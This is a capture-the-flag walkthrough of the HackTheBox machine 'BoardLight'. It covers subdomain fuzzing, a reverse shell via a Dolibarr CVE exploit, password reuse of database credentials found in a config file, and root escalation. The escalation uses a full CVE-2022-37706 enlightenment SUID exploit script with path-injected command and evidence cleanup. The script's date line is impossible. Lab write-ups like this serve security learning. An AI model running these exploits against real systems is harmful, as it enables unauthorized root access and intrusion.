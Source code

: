 ```yaml
---
title: BoardLight
tags:
  - Linux
  - CRM
  - Enumeration
  - SUID
  - HackTheBox
  - Easy
date: 2024-06-31T00:00:00Z
---
```

![](Pasted%20image%2020240831201755.png)
## Reconnaissance

First, I added the new host to my known ones:

```shell
sudo echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts
```

After that, I performed an Nmap scan:

```shell
nmap -sC -T4 -p- board.htb > sC.txt

[redacted]
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
```

So I took a look at the webpage:

![](Pasted%20image%2020240831202645.png)

After some inspection, I decided to perform a scan with [dirsearch 📁](/notes/tools/dirsearch.md), but nothing was found, so I performed a [Ffuf 🐳](/notes/tools/Ffuf.md) scan to scan for subdomains:

```shell
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://board.htb:80/ -H 'Host: FUZZ.board.htb' -fs 15949

[redacted]
crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 71ms]
```

So we add it to the hosts file.

Now a strange login is found:

![](Pasted%20image%2020240831204415.png)

## Weaponization

As inspecting the code anything was found, I decided to take a look at [CVE-2023-30253](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253)

## Exploitation

Run the script like:

```shell
python3 exploit.py http://crm.board.htb admin admin 10.10.14.60 666
```

> We've got a shell :D

![](Pasted%20image%2020240831205055.png)

Stabilise it:

```shell
python3 -c "import pty; pty.spawn('/bin/bash')"
# then
export TERM=xterm
# Press -> Ctrl + Z
stty raw -echo; fg
```

Unfortunately, we've got no permissions to read user flag, so let's try to find something interesting inside the machine. After quite time looking for, I managed to find mysql user credentials inside `/var/www/html/crm.board.htb/htdocs/conf/conf.php` file:

![](Pasted%20image%2020240831211222.png)

So I entered the database to extract SSH creds:

```shell
mysql -u dolibarrowner -p

Enter password: serverfun2$2023!!
SHOW DATABASES;
exit
Database
dolibarr
information_schema
performance_schema

mysql -u dolibarrowner -p
use dolibarr;
SHOW TABLES;
Tables_in_dolibarr
llx_accounting_account
llx_accounting_bookkeeping
llx_accounting_bookkeeping_tmp
llx_accounting_fiscalyear
llx_accounting_groups_account
llx_accounting_journal
llx_accounting_system
[redacted]
```

Nothing interesting was found following these steps, so I tried to combine the user `larissa` with the password of mysql `serverfun2$2023!!`. It worked!

![](Pasted%20image%2020240831212132.png)

> We obtained the user flag!

## Privilege Escalation

Once here, we upload linpeas to the machine and search for PE. In this case, linpeas outputs this SUID binary PE:

![](Pasted%20image%2020240831213016.png)

We can check its version with:

```shell
dpkg -l | grep enlightenment
hi  enlightenment      0.23.1-4      amd64        X11 window manager based on EFL
hi  enlightenment-data 0.23.1-4      all          X11 window manager based on EFL - run time data files
```

We can try this exploit: [CVE-2022-37706](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2022-37706/docs/exploit.sh)

```bash
#!/usr/bin/bash
# Idea by MaherAzzouz
# Development by nu11secur1ty

echo "CVE-2022-37706"
echo "[*] Trying to find the vulnerable SUID file..."
echo "[*] This may take few seconds..."

# The actual problem
file=$(find / -name enlightenment_sys -perm -4000 2>/dev/null | head -1)
if [[ -z ${file} ]]
then
	echo "[-] Couldn't find the vulnerable SUID file..."
	echo "[*] Enlightenment should be installed on your system."
	exit 1
fi

echo "[+] Vulnerable SUID binary found!"
echo "[+] Trying to pop a root shell!"
mkdir -p /tmp/net
mkdir -p "/dev/../tmp/;/tmp/exploit"

echo "/bin/sh" > /tmp/exploit
chmod a+x /tmp/exploit
echo "[+] Welcome to the rabbit hole :)"

echo -e "If it is not found in fstab, big deal :D "
${file} /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/exploit" /tmp///net

read -p "Press any key to clean the evedence..."
echo -e "Please wait... "

sleep 5
rm -rf /tmp/exploit
rm -rf /tmp/net
echo -e "Done; Everything is clear ;)"
```

> We are root now and root flag was gained!

![](Pasted%20image%2020240831215735.png)

==Machine pwned!==

